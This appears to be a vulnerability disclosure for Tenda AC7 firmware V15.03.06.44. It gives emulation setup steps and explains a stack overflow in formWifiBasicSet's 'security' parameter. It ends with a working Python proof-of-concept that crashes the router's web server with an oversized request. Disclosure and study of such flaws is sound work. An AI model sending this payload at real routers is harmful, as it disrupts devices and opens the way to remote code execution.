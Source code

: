 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation
need build Network bridge:

```text-x-haskell
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):
https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

formWifiBasicSet security stackoverflow
---------------------------------------

### Vulnerability Details

A stack-based buffer overflow vulnerability in firmware version TenDa AC7 V15.03.06.44 allows a remote attacker to execute arbitrary code through a stack overflow attack using the security parameter of the formWifiBasicSet function.

formWifiBasicSet

![image](https://github.com/user-attachments/assets/e26eb16c-55bc-4efb-a304-52333fd7ca20)


formWifiBasicSet takes the parameter security from user input, but does not validate the length of user input.

After that, the function copies security directly into param via functions, resulting in a stack overflow vulnerability. strcpy

![image](https://github.com/user-attachments/assets/b8578afc-8f15-4b33-a945-0a7e9480dd61)


### poc

```text-plain
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'security': b'R' * 0x1000}

headers = {
    'Host': '192.168.142.100',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.142.100/goform/WifiBasicSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

![image](https://github.com/user-attachments/assets/c765e381-4c11-4af6-99ed-cf4559816269)

